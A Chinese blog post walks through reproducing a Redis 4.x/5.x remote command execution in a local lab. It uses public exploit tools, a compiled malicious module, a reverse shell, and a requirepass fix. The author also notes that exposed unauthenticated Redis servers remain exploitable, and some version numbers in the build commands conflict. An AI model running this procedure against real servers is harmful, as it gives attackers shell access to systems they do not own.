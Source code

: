 ```yaml
---
layout:     post
title:      Redis 4.x 5.x 远程命令执行漏洞
subtitle:   Redis RCE
date:       2019-07-09
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - Redis
    - 漏洞
---
```

# 前言
今天在日志分析的我，收到了朋友的发给我的Redis 4.x 5.x RCE EXP，于是我就又开始了我的漏洞复现之路...
# 环境搭建
由于看到是Redis 4.x 5.x RCE EXP，我就下载一个5.0.0版本吧：
```
wget http://download.redis.io/releases/redis-5.0.5.tar.gz
tar xzf redis-5.0.0.tar.gz
cd redis-5.0.5
make
```

## 修改配置文件运行远程访问
1、将redis.conf文件中的bind 127.0.0.1 这行前面加注释(#)；
2、将redis.conf文件中的 protected-mode yes 改为no；
## 运行Redis
```
./redis-server /root/redis/redis-5.0.0/redis.conf
```

## 下载EXP
```
git clone https://github.com/Ridter/redis-rce.git
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git
```
编译module.so文件：
```
cd RedisModules-ExecuteCommand/
ls
make
```
编译完成后，文件会在src目录下生成：
![图片](../../../../redis_rec_1.png)

将编译完的module.so复制到redis-rce目录下，然后执行以下命令：
```
python redis-rce.py -r 127.0.0.1 -L 127.0.0.1 -f module.so
```
-r参数是指远程Redis IP地址；
-L参数是指反弹到的服务器IP地址；
执行命令后，开启监听了本地的21000端口，并成功反弹回了shell。
![图片](../../../../redis_rec_2.png)

# 修复建议
该漏洞鸡肋的是如果设置了Redis的密码就没辙了...但是Redis未授权访问还没灭绝，以后遇到Redis未授权访问还是可以利用利用的！
只要把redis.conf文件中的requirepass 取消注释，并修改为高强度密码即可暂时性的躲避该漏洞的危害。
![图片](../../../../redis_rec_3.png)

![图片](../../../../redis_rec_4.png)


